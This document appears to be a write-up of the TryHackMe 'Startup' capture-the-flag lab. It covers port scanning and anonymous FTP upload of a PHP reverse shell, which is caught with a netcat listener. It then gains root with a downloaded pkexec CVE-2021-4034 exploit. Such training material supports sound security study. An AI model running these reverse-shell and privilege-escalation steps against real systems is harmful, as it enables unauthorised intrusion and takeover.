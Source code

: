 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/startup/","tags":["CTF","write-up"]}
---
```


![Pasted image 20240926192837.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240926192837.png)
Abuse traditional vulnerabilities via untraditional means.
**We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

---
# Active reconnaisance
## Enum ports and services
Running a general scan
```shell
sudo nmap 10.10.100.226 -sS -n -p- --min-rate 5000 -vvv -Pn --open
```

```c
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

---
# Vuln analisis
Running a focused scan
```shell
sudo nmap 10.10.100.226 -sCV -p 21,22,80
```

## Port 22
```c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
```
From launchpad probabbly Ubuntu Xenial Xerus 16.04
![Pasted image 20240927085755.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927085755.png)
## Port 21
```c
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.6.2.59
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```
### Download the files
Connecting, set the name `ftp` or `anonymous` and the password empty.
```shell
ftp IP
ftp
```
Now we see the files.
![Pasted image 20240927215100.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927215100.png)

To download them.
```shell
get filename.txt
```
## Port 80
```c
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
### Fuzzing
```shell
wfuzz -c -t 10 --hc=404,403 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://startup.thm/files/FUZZ
```
After fuzz we found only the `files ` sub-directory
![Pasted image 20240927152857.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927152857.png)
And the ftp folder it's empty.

---
# Exploitation
## Port 21 write access
Test if we can write into the ftp folder.
We can't write into the main folder but we can do it into `ftp` folder.
![Pasted image 20240927153044.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927153044.png)
## Port 80
We create an reveseshell using https://www.revshells.com/ PHP PentestMonkey
And put that file.

Set the listener on the attacker machine
```shell
rlwrap nc -lnvp 4747
```
And go to the file in the browser. http://startup.thm/files/ftp/rev_shell_1.php
And we have the shell.
![Pasted image 20240927153415.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927153415.png)
Get a better shell
```python
python -c  'import pty;pty.spawn("/bin/bash")'
```

> [!check] What is the secret spicy soup recipe?
![Pasted image 20240927155826.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927155826.png)

---
# Privilege Escalation
Check files with [[Operative System/Linux/Permisos/SUID\|SUID]] permission
```shell
find / -type f -perm -u=s -ls 2>/dev/null
```
or
```shell
find / -type f -perm -4000 -ls 2>/dev/null
```
![Pasted image 20240927171405.png|600](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171405.png)
## CVE-2021-4034
 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



> [!cite] NIST-CVE-2021-4034
> A local privilege escalation vulnerability was found on polkit's **pkexec** utility. The pkexec application is a **setuid** tool designed to allow unprivileged users to **run commands as privileged users** according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

We have `pkexec`with SUID the bit enabled.
The exploit https://github.com/Almorabea/pkexec-exploit
```shell
wget https://raw.githubusercontent.com/Almorabea/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```
Or the code [[CVE-2021-4034-exploit\|CVE-2021-4034-exploit]]

And transfer to the victim machine

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



## Transfer files
On the folder that contain the file to send **on the source machine.** E.g. `file.txt`
```python
python -m http.server 4545
```

On the destination machine
```shell
wget http://IP_SOURCE_MACHINE:4545/file.txt
```

</div></div>


Run the exploit
```shell
python3 CVE-2021-4034.py
```


</div></div>

We have the root shell
![Pasted image 20240927161322.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927161322.png)

> [!check] user.txt
> ![Pasted image 20240927171747.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171747.png)


> [!check] root.txt
> ![Pasted image 20240927171845.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171845.png)



---


c4ntg3t3n0ughsp1c3

I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
$ ls
concern.txt  list.txt  note.txt
$ cat list*
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
$ cat note*
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.

planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh

/etc/print.sh
#!/bin/bash
echo "Done!"